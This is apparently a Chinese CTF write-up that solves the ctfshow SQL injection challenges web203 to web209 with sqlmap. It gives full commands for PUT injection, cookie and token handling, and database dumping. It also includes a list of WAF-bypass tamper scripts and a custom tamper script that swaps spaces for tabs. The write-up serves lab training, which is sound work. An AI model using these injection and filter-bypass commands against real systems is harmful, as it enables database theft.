### web203



PUT 提交有两个条件

1. headers 内修改为 Content-Type: text/plain
2. /api/ 补全为 /api/index.php

```
python sqlmap.py -u http://e96b64b8-6069-4898-b4ab-5d3e3ba554b8.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer e96b64b8-6069-4898-b4ab-5d3e3ba554b8.challenge.ctf.show/sqlmap.php -D ctfshow_web -T ctfshow_user -C id,pass,username --dump --batch --headers="Content-Type: text/plain"
```



### web204

需要 cookie






`cookie:PHPSESSID=tchjfajfnth2ujm986571b730u; ctfshow=4e594a7084e3bdbb1976a6a002aa8f1c`

```
python sqlmap.py -u http://74cb1048-e625-4fce-961b-04cc27c10f17.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer https://74cb1048-e625-4fce-961b-04cc27c10f17.challenge.ctf.show/sqlmap.php -D ctfshow_web -T ctfshow_user -C id,pass,username --dump --batch --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=fd5d37jbd0f0cli08lgn33gg1o; ctfshow=c238470592a32aa4a322a6ce9ab247c0"
```



### web205

api 调用需要鉴权



打开网页后会请求一个`getToken.php`鉴权

追加 --safe-url 参数设置在测试目标地址前访问的安全链接，将 url 设置为 api/getToken.php，再加上 --safe-preq=1 表示访问 api/getToken.php 一次

```
python sqlmap.py -u http://64ba2796-4e6f-4af3-b9e0-b10f0487facd.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://64ba2796-4e6f-4af3-b9e0-b10f0487facd.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="PHPSESSID=tv23c8caiqmuml4rousq1s2gdl" --safe-url="http://64ba2796-4e6f-4af3-b9e0-b10f0487facd.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web --tables --batch
```



查看字段

```
python sqlmap.py -u http://64ba2796-4e6f-4af3-b9e0-b10f0487facd.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://64ba2796-4e6f-4af3-b9e0-b10f0487facd.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="tv23c8caiqmuml4rousq1s2gdl" --safe-url="http://64ba2796-4e6f-4af3-b9e0-b10f0487facd.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flax --columns --batch
```



读取数据

```
python sqlmap.py -u http://64ba2796-4e6f-4af3-b9e0-b10f0487facd.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://64ba2796-4e6f-4af3-b9e0-b10f0487facd.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="tv23c8caiqmuml4rousq1s2gdl" --safe-url="http://64ba2796-4e6f-4af3-b9e0-b10f0487facd.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flax  -C flagx,id,tes --dump --batch
```



### web206

sql 需要闭合
多了括号，但是 sqlmap 会自行尝试多种闭合



```
python sqlmap.py -u http://8a8771c9-dfc9-4203-b7f6-5889eab5ad0e.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://8a8771c9-dfc9-4203-b7f6-5889eab5ad0e.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="PHPSESSID=tv23c8caiqmuml4rousq1s2gdl" --safe-url="http://8a8771c9-dfc9-4203-b7f6-5889eab5ad0e.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web --tables --batch
```



```
python sqlmap.py -u http://8a8771c9-dfc9-4203-b7f6-5889eab5ad0e.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://8a8771c9-dfc9-4203-b7f6-5889eab5ad0e.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="PHPSESSID=tv23c8caiqmuml4rousq1s2gdl" --safe-url="http://8a8771c9-dfc9-4203-b7f6-5889eab5ad0e.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flaxc -columns --batch
```



```
python sqlmap.py -u http://8a8771c9-dfc9-4203-b7f6-5889eab5ad0e.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://8a8771c9-dfc9-4203-b7f6-5889eab5ad0e.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie=" PHPSESSID=ehie8a6a7jfba3cv19q5b7huvs" --safe-url="http://8a8771c9-dfc9-4203-b7f6-5889eab5ad0e.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flaxc -C flagv,id,tes --dump --batch
```



### web207

--tamper 的初体验



tamper 用于调用脚本，绕过过滤

这里过滤的是空格

`sqlmap --tamper`绕过 WAF 脚本分类整理：

```
apostrophemask.py	用utf8代替引号
base64encode.py 	用base64编码替换
ultiplespaces.py	围绕SQL关键字添加多个空格
space2plus.py	用+替换空格
space2comment.py	Replaces space character (‘ ‘) with comments ‘/**/’
unionalltounion.py	替换UNION ALL SELECT UNION SELECT
securesphere.py	追加特制的字符串
equaltolike.py	like 代替等号
greatest.py	绕过过滤’>’ ,用GREATEST替换大于号
space2mssqlhash.py	替换空格
between.py	用between替换大于号（>）
randomcase.py	随机大小写
versionedmorekeywords.py	注释绕过
halfversionedmorekeywords.py	关键字前加注释
space2morehash.py	空格替换为 #号 以及更多随机字符串 换行符
```

加上`--tamper space2comment.py `或者`space2mssqlhash.py` `space2plus.py`无法过

```
python sqlmap.py -u http://a52e01aa-aede-4b53-b993-160b17f6d5b7.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://a52e01aa-aede-4b53-b993-160b17f6d5b7.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie=" PHPSESSID=ehie8a6a7jfba3cv19q5b7huvs" --safe-url="http://a52e01aa-aede-4b53-b993-160b17f6d5b7.challenge.ctf.show/api/getToken.php" --safe-freq=1 --dbs --tamper space2comment.py
```



```
python sqlmap.py -u http://a52e01aa-aede-4b53-b993-160b17f6d5b7.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://a52e01aa-aede-4b53-b993-160b17f6d5b7.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie=" PHPSESSID=ehie8a6a7jfba3cv19q5b7huvs" --safe-url="http://a52e01aa-aede-4b53-b993-160b17f6d5b7.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper space2comment.py -D ctfshow_web --tables
```



```
python sqlmap.py -u http://a52e01aa-aede-4b53-b993-160b17f6d5b7.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://a52e01aa-aede-4b53-b993-160b17f6d5b7.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie=" PHPSESSID=ehie8a6a7jfba3cv19q5b7huvs" --safe-url="http://a52e01aa-aede-4b53-b993-160b17f6d5b7.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper space2comment.py -D ctfshow_web -T ctfshow_flaxca --columns
```



```
python sqlmap.py -u http://a52e01aa-aede-4b53-b993-160b17f6d5b7.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://a52e01aa-aede-4b53-b993-160b17f6d5b7.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie=" PHPSESSID=ehie8a6a7jfba3cv19q5b7huvs" --safe-url="http://a52e01aa-aede-4b53-b993-160b17f6d5b7.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper space2comment.py -D ctfshow_web -T ctfshow_flaxca -C flagvc,id,tes --dump
```



### web208

--tamper 的 2 体验



不仅过滤了空格，还将 select 替换为了空，采用大小写绕过，即 randomcase.py 随机大小写：

```
python sqlmap.py -u http://6f6c146a-d487-4d5b-b75a-ded5599f1392.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://6f6c146a-d487-4d5b-b75a-ded5599f1392.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4" --safe-url="http://6f6c146a-d487-4d5b-b75a-ded5599f1392.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web --tables --batch --tamper space2comment.py,randomcase.py
```



```
python sqlmap.py -u http://6f6c146a-d487-4d5b-b75a-ded5599f1392.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://6f6c146a-d487-4d5b-b75a-ded5599f1392.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4" --safe-url="http://6f6c146a-d487-4d5b-b75a-ded5599f1392.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flaxcac --columns --batch --tamper space2comment.py,randomcase.py
```



```
python sqlmap.py -u http://6f6c146a-d487-4d5b-b75a-ded5599f1392.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://6f6c146a-d487-4d5b-b75a-ded5599f1392.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4" --safe-url="http://6f6c146a-d487-4d5b-b75a-ded5599f1392.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flaxcac -C flagvca,id,tes --dump --batch --tamper space2comment.py,randomcase.py
```



### web209

过滤了  `*` `=`
--tamper 的 3 体验



`*`被禁

网上说新建一个脚本

```
#!/usr/bin/env python

"""
Copyright (c) 2006-2024 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces space character (' ') with comments '/**/'
    Tested against:
        * Microsoft SQL Server 2005
        * MySQL 4, 5.0 and 5.5
        * Oracle 10g
        * PostgreSQL 8.3, 8.4, 9.0
    Notes:
        * Useful to bypass weak and bespoke web application firewalls
    >>> tamper('SELECT id FROM users')
    'SELECT/**/id/**/FROM/**/users'
    """

    retVal = payload

    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += chr(0x09)
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == " " and not doublequote and not quote:
                retVal += chr(0x09)
                continue

            retVal += payload[i]

    return retVal
```

my1.py

接下来我们使用 my1.py 和 equaltolike.py 跑表名：

```
